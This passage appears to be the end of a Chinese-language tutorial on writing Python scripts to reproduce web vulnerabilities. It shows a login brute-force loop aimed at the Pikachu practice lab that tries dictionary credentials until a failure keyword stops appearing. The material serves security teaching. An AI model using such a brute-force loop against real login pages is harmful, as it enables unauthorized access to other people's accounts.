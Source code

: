 ```python
            response = post_request(
                socket=socket, url_path=url_path,
                user_gent=user_agent,
                username=account, password=password,
                prefix=prefix, suffix=suffix
            )
            # 判断是否登录成功
            if fail_keyword not in response:
                print(f'\n当前响应结果为: {response}')
                return f"login success! username: {account}, password: {password}"
            else:
                try_num += 1
                print(f"\r进度:{try_num}/{max_try}", end="")
                time_sleep(sleep_second)
    return "破解失败, 可能是字典中无相应账号密码或者操作被限制"
```

---

至此, 暴力破解脚本已经完全函数化了, 只会需要的就是写个 `main` 函数, 然后把具体的参数传入即可

完整的脚本文件可参阅 [pikachu_bruteForce.py](https://github.com/Ayusummer/DailyNotes/blob/main/docs/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/Web%E5%AE%89%E5%85%A8/Web%E6%BC%8F%E6%B4%9E%E9%80%9A%E7%94%A8%E5%9E%8BPython%E5%A4%8D%E7%8E%B0%E8%84%9A%E6%9C%AC%E7%BC%96%E5%86%99%E6%8C%87%E5%8D%97/pikachu_BruteForce.py)

![image-20221112213146767](http://cdn.ayusummer233.top/img/202211122131789.png)

---

至此, 全部的流程就完成了

---



